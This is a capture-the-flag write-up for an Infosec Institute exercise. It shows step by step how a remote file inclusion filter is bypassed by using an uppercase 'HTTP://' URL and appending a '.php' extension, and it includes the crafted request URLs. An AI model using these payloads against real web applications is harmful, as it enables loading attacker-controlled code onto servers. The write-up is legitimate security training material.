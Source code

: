 # A4 Insecure Direct Object References

1.	The task is clear! We have to load a `.php` remote file from
	`infosecistitute.com`. By clicking on `Bio` button, we can see that files
	are loaded by using the `file` parameter

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=<FILENAME>

2.	Let's try to load something from `infosecinstitute.com`

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http://infosecinstitute.com/foo.php

	The application says

		You are trying to add a remote URL.

	It seems that some validation occurs on the value of `file` parameter. Let's
	try withouth `http:`

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=//infosecinstitute.com/foo.php

	The application says

		Invalid file selected.

	Just to be sure, let's try with

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=http

	and

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=foohttpbar

	In both cases, the result is

		You are trying to add a remote URL.

	After some other attempts, seems that `file` parameter's value is validated
	against a `regex` in order to check if `http` string is present.

3.	Now, we have to check if the `regex` is case-sesntirive. Let's try with the
	following URLs

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/foo.php
		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP
		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=fooHTTPbar

	Relative answers are

		Invalid file selected.
		Invalid file selected.
		Invalid file selected.

	This means that we know now how to write the remote file's URL!!! :-)

4.	In the application's navbar, all the loaded files are named by following a
	shared format

		file<N>.txt

	Let's try with

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/file1.txt

	The application says

		There is something else that you must do.

	In the task's description it's wrote

		[...] it must have the PHP file extension [...]

	Maybe this?

		http://ctf.infosecinstitute.com/ctf2/exercises/ex4.php?file=HTTP://infosecinstitute.com/file1.txt.php

	Yep!!! :-D

[Go to Ex3](./ex3.md) | [Go to Ex5] (./ex5.md)

